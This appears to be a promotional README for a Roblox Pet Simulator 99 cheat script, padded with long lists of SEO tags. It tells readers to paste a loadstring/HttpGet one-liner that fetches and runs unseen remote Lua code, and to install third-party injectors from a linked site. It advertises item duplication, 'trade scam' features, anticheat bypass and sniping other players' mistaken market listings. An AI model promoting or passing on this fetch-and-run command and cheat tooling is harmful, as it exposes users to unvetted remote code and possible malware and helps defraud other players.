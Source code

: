 # Pet Simulator 99 Script Turkey World Part Two & Anniversary Gift UPDATE [PS99]

copy this script and paste into injector this is an all in 1

**script: loadstring(game:HttpGet("https://raw.githubusercontent.com/Fedzen/script/refs/heads/main/.lua", true))()**

# functionsadded

TITANIC DUPING TO MAIL BOX , abit same as before but much different only works on titanics not huges now you can dupe as many as you like but please note its 1 dupe per titanic.

auto dupe hacker chest enchantment book x 1 auto plant seeds easy 100million diamonds daily for world 1

To run script you need an injector vega,delta,fluxus,pr arceous x is best https://spdmteam.com/

to run new script run and install injector then run the script once loaded into main account as u will need alt accounts aswellif u want for mailing items Now updated for new Petsim99 update Hacker Matrix farm hacker keys to open chest for huges Auto farms diamonds,coins,potions, auto dig auto fish, autopop balloons, auto quest for masteryand each mastery auto level from 1st stage to 216 auto farm pet chest new update auto farm 3 x huges in bank robbery auto hatch eggs with disabling animation to summon eggs faster auto trade items in market placewithout being at stand auto snipe turn on and off get noptification when item sniped if usrs make a mistake input 1 diamond or 10k in 1st box and second box put maxmum u want to snipe at (yes users make mistakes) auto change server in market place when searching for items if you cant find it in current market once item is sniped have them auto mailed to your next account (special feature) auto dm players, auto farm chest run and lucky blocks on server

![355542826-e855a711-b084-4eaa-b985-493644953ca5](https://github.com/user-attachments/assets/406b8b03-1b56-4c73-9718-62df08fd1c5c)

# TAGS

PS99 Trade Scam Pet Simulator 99 Pet Sim 99 PS99 Dupe #petsimulator99 #petsim99 #petsimulator99script #scriptpetsimulator99 pet simulator 99, pet sim 99, pet simulator 99 script, script pet simulator 99, pet sim 99 script, roblox pet simulator 99 script, pet simulator 99 script pastebin, pet simulator 99 hack, pet simulator 99 script mobile, roblox pet sim 99 script, pet simulator 99 dupe, pet sim 99 hack, script pet sim 99, roblox, pet simulator 99 script 2023, pet simulator x, pet simulator, pet simulator 99 roblox, pet simulator 99 script pastebin 2023, roblox pet simulator 99, pet sim 99 dupe, roblox simulator, pet sim, pet simulator 99 update, ps99 script, pet simulator x codes, pet simulator x script, pet simulator 99 codes, roblox pet simulator x, script pet simulator x, bypass anticheat, byfron anticheat, pet sim 99 script mobile, pet sim 99 script auto farm, psx, free, huge pet, pet simulator 99 script update, robux, pet simulator 99 script pastebin update, pet simulator 99 dupe script, pet sim 99 script pastebin 2023, roblox pet simulator, pet simulator x giveaway, pet sim x, pet simulator x secrets, pet simulator x new update, pet simulator x update, pet simulator 99 script auto farm, pet simulator 99 giveaway live, ps99 dupe script, pet simulator 99 how to get diamonds fast, pet sim 99 trade scam script, pet simulator 99 скрипт, pet simulator 99 free gamepass script, автофарм pet simulator 99, hack pet simulator 99, pet simulator 99 pet dupe, pet simulator 99 скачать читы, скачать читы на pet simulator 99, скачать читы pet simulator 99, pet simulator 99 diamond dupe, script hack pet simulator 99, pet simulator 99 max rank, pet simulator 99 tutorial, pet simulator 99 transfer, pet simulator 99 leaks, pet simulator 99 farm, pet simulator 99 rebirth, pet simulator 99 stairway to heaven, pet simulator 99 farm gems, скрипт pet simulator 99, pet simulator x hack, hack, pet simulator x mythical pets, pet simulator x roblox update, pet simulator 99 giveaway, pet simulator 99 fastest way to get gems, pet simulator x roblox how to, ps99, pets, pet simulator 99 live countdown, pet simulator 99 giveaway live now, code, free pets, dupe, скрипт на pet simulator 99, читы pet simulator 99, читы на pet simulator 99, pet simulator 99 читы, pet simulator 99 чит, чит на pet simulator 99, чит pet simulator 99, pet simulator 99 update codes, pet simulator 99 roblox new update, pet simulator x roblox, pet simulator 99 huge pets, pet simulator 99 secret leaks, pet simulator 99 secret places, pet simulator 99 all secrets, pet simulator 99 secret pets, pet simulator 99 new update, pet sim 99 codes, pet simulator 99

# additionally

lau script so works with all injectors

u can use and install apk injectors on bluestacks,mumu player there are 2 scripts basic and advance

This is a working free Pet Simulator 99 (PS99) Script/Gui. It is undetectable. It works on all decent executors like Codex, Arceus X, Hydrogen, etc. Join the discord to be aware of new updates of this Script/Gui. Remeber ZapHub has a Premium Version with more Op feautres and Keyless.

--Auto Farm Tab • Infinite Pet Speed • Auto Farm • Auto Collect Coins/Lootbags/Diamonds/Items • Auto Use Ultimate • Auto Teleport To Best Area • Auto Buy Next Area • Auto Rebirth • Auto Use All Misc Items • Auto Use Breakable Sprinkler • Auto Use TNT • Auto Use TNT Crate

--Egg Tab • Auto Open Egg • Disable Egg Animation • Auto Make Pets Gold - Premium • Auto Make Rainbow Gold - Premium

--Auto Quest Tab • Auto Area Quest - Premium • Ignore Some Area Quest - Premium

--Main Tab • Auto Claim Playtime Rewards • Auto Claim Rank Rewards • Auto Claim Daily Chest • Auto Claim Hidden Presents • Auto Pop Balloons • Auto Buy Merchants • Auto Buy Vending Machines

--Event Tab (Prison) • Auto Open Prison Chest • Use Golden Prison Key

--Event Tab (Police Station) • Auto Break Police Station Chest • Break Police Station Chest With Pets • Auto Buy Police Station Egg

--Event Tab (Summer) • Auto Teleport To Best Summer Egg • Auto Buy Nearest Summer Egg

--Automatic Tab • Auto Eat Fruits • Auto Use Buffs • Auto Use Potions • Auto Open All Gifts • Auto Combine All Keys • Auto Open All Chests • Auto Spin All Wheels • Auto Upgrade Potions - Premium • Auto Upgrade Enchants - Premium

--Chest Tab • Open All Daily Chest • Break All Boss Chest

--Minigames Tab • Enter to Obby (All Obby) • Finish the Obby (All Obby) • Auto Minifield • Auto Atlantis • Auto Fishing and Advanced Fishing • Auto Dig and Advanced Dig (For Digsite) • Auto Dig Row Below (For Digsite) • Auto Farm Chest (For Digsite) • Chest ESP (For Digsite)

--Teleport Tab • Teleport to Main World • Teleport to Tech World • Teleport to Trading World • Teleport to Spawn • Teleport to All Area • Teleport to All Machines • Teleport to All Merchats • Teleport to All Vending Machines

--Player Tab • Walk Speed • No Clip

--Fly Tab • Fly • Up and Super Up • Down and Super Down

--Misc Tab • FPS Booster • White Screen (GPU Care) • Server Hop (Best Ping) • Rejoin (Random Server) • Rejoin (Same Server)
